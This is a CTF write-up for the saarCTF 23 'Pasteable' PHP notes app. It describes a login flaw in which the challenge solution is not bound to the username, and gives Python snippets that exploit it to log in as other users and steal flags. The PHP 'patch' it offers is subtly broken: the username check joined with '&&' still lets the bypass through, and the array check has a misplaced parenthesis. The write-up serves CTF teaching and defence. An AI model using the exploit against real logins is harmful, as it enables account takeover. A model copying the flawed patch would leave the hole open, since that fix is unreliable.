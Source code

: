 +++
author = "Matteo Golinelli & Michele Grisafi"
title = "[saarCTF 23] Pasteable Writeup"
date = "2023-11-20"
description = "Writeup for the Pasteable challenge of the saarCTF 23"
tags = [
    "writeup",
    "ctf",
    "web"
]
+++

## Challenge Description

The challenge was a web application that allowed users to create and share password-protected notes. The application is written in PHP and uses a MySQL database to store the notes.

When creating a note, the user must enter a title, some content, and a password that is used to encrypt the note. The note is then stored in the database and the user is given a link to share the note with others. When opening the link, the user is asked to enter the password to decrypt the note. The link is composed of an ID and a checksum:
`http://host:port/reveal/?id=<ID>&checksum=<CHECKSUM>`

The ID is computed using the PHP [`uniqid()`](https://www.php.net/manual/en/function.uniqid.php) function. The documentation states that "This function does not generate cryptographically secure values, and must not be used for cryptographic purposes, or purposes that require returned values to be unguessable.".

Even if an attacker can guess the ID of a note of another user, they cannot read the content without its password. Nevertheless, we replaced this unsafe function with [`random_int()`](https://www.php.net/manual/en/function.random-int.php)

A registered user can read the content of its notes without entering the password.

## Vulnerability

The functionalities of the web application are restricted to logged in users. The registration and login processes are handled by the same form and are both composed of two separated steps:

1. **Crypto challenge**:
    In this first step, independently on whether the user is registering or signin into an existing account, the client will send the username to the `/func/challenge.php` endpoint. This server checks whether the user is already registered and, in this case, it:

   1. Generates the **challenge**: a weak 6 characters random string.
   2. Stores the challenge in the PHP `$_SESSION` variable, that is persistent across different HTTP requests.
   3. Sends the challenge encrypted with the hash of the user password (fetched from the database) in the HTTP response.

    If the user is not yet registered (i.e., not found in the database), the server sends an HTTP response the string "**ok**" as body.

2. **Login and registration**:
    Depending on the server response, the client (i.e., the JavaScript `submitLogin()` function) will either try to sign up or sign in the user.

    - To **register** a new user, it sends the *username* and the *hash of the password* to the `func/registration.php` endpoint, that stores it in the database.
    - To **login** an existing user, the client receives the challenge and tries to solve it by using the password entered by the user. Once the solution has been computed, it sends it to the `/func/login.php` endpoint, together with the username. The **vulnerability** lays in this login process. Specifically, the server does not check that the username that it receives is the same as the one for which the challenge was generated, but only checks that a username and a solution are included in the request. If the solution is equal to the one that was stored in the `$_SESSION` variable in *step 1*, then it logs the provided username in.

## Exploitation

Exploiting the vulnerability is conceptually easy: an attacker registers a user, solves the login challenge using its password, and sends the solution together with a different username that it wants hijack. The server receives the solution, checks whether it is correct, and logs the received username in.

### Exploit

The game server places the flags in the web application by registering a user and storing the flag in a note. The name of the registered users are the flag IDs that could be found by requesting the URL <https://scoreboard.ctf.saarland/attack.json>.

For each target machine, we first download the list of flag IDs. Then, we **register a user** on the target application by directly sending the username and the hashed password to the registration endpoint.

```python
pass_hash = hashlib.sha256("OurSecretPassword!".encode('utf-8')).hexdigest()
register_response = session.post(register_url, data={"username": my_username, "password": pass_hash})
```

**Note**: *to make our registration unrecognizable from those made by the game server, we use a randomly selected flag ID from another target as the username*.

Then, for each flag ID of the target (i.e., username):

1. We send a login request to the target application with the username that we registered and receive a **challenge**.

2. We solve the challenge using the password of our registered user to get the **solution**.

    ```python
    challenge_response = session.post(challenge_url, data={"username": my_username})
    challenge = challenge_response.text

    key = bytes.fromhex(pass_hash)
    iv = bytes.fromhex(pass_hash[:32])
    ciphertext = bytes.fromhex(challenge)

    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted_bytes = cipher.decrypt(ciphertext)

    solution = decrypted_bytes.decode('utf-8', 'ignore').strip()
    ```

3. We send the solution to the target application, setting as username the flag ID that we want to retrieve.

    ```python
    login_response = session.post(login_url, data={"username": flag_ID, "solution": solution})
    ```

4. We visit the homepage of the application that shows all the notes of the logged user. The flag is in the content of the note. We use BeautifulSoup to parse the page and extract the flag.

    ```python
    soup = BeautifulSoup(homepage_response.text, 'html.parser')
    flag = soup.find("p", class_="card-text").text
    ```

## Patch

To properly patch the login process without modifying the APIs and the client-side code (as the game server directly performed the requests to the endpoints), we modified the code on the server-side.

First, we bound the challenge to the username (i.e., the challenge owner) by storing the **username** into a separate PHP `$_SESSION` variable:

```php
$_SESSION['challenge'] = $random_string;
$_SESSION["username"] = $username;
```

Upon login, the server will check that both the challenge solution and the received username are the same as the ones saved in the `$_SESSION` variable during the first step:

```php
if (
        (strcmp($_POST['solution'], $_SESSION['challenge']) != 0) &&
        (strcmp($_POST['username'], $_SESSION['username']) != 0)
    ) {
    header('HTTP/1.0 403 Forbidden');
    die("Invalid request");
}
```

Moreover, we changed the challenge function to use a cryptographically stronger random number generator and a longer string.

Finally, we check that `$_POST['solution']` and `$_POST['username']` are not arrays, because on our traffic analyzer we saw that some attacking teams were stealing our flags by sending an array as username and solution. The patch effectively stopped this attack, but we did not investigate this issue further.

```php
if(is_array($_POST['username'] || is_array($_POST['solution'])){
    header('HTTP/1.0 403 Forbidden');
    die("Invalid request");
}
```
